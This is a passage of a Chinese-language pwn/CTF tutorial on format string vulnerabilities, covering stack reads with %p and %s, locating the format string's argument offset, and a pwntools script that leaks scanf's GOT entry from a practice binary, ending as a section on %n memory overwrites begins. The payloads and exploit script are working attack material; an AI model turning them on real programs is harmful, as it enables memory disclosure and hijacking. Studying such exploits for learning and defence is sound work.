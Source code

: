 #### 获取栈变量对应字符串
只需要将`%n$x`改成`%n$s`就可以获取在栈上对应的字符串，步骤和上面泄露内存地址一样。但是需要注意并不是所有的地址都可以被解析成字符串，如果不能解析成字符串，那么程序就会崩溃

#### 技巧小总结
- 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
- 利用%s来获取变量所对应地址的内容，只不过有零截断。
- 利用%order$x来获取指定参数的值，利用%order$s来获取指定参数对应地址的内容。

#### 泄露任意地址内存
如果可以泄露某个libc函数中的got表地址，那么就可以获取libc版本和取其他函数的地址。那要如何才可以泄露某个地址的内存？

一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的，在调用输出函数的时候，第一个参数的值其实就是该格式化字符串的地址。由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第k个参数。那我们就可以通过如下的方式来获取某个指定地址addr的内容。
```c
addr%k$s
```
如何确定该格式化字符串为第几个参数，我们可以通过下面这种方式来确定。
```c
[tag]%p%p%p%p%p%p
```
一般来说，我们会重复某个字符的机器字长来作为tag，而后面会跟上若干个%p来输出栈上的内容，如果内容与我们前面的tag重复了，那么我们就可以有很大把握说明该地址就是格式化字符串的地址。
```c
gnq@gnq:~/test$ ./leakmemory 
aaaa.%p.%p.%p.%p.%p.%p
00000001.22222222.ffffffff.aaaa.%p.%p.%p.%p.%p.%p
aaaa.0xffffcf40.0xc2.0xf7e9379b.0x61616161.0x2e70252e.0x252e7025g
```
可以看到0x61616161是输出函数的第五个参数，也就是格式化字符串的第四个参数。

如果此时把aaaa替换成某个函数的got表地址，那么程序就会打印出这个函数的真实地址。以scanf函数为例，获取scanf_got的值
```python
from pwn import *
p = process('./leakmemory')
leakmemory = ELF('./leakmemory')
scanf_got = leakmemory.got['__isoc99_scanf']
print hex(scanf_got)
payload = p32(scanf_got) + '%4$s'

p.sendline(payload)
p.recvuntil('%4$s\n')
print hex(u32(p.recv()[4:8]))

p.interactive()
```

<br/>

### 覆盖内存
只要变量对应的地址可写，我们就可以利用格式化字符串来修改其对应的数值。这里需要用到`%n`这个特殊的参数类型。之前提到`%n`可以将输出成功的字符个数写入对应的整型指针参数所指的变量。

一般来说，如下步骤
- 确定覆盖地址
- 确定相对偏移
- 进行覆盖
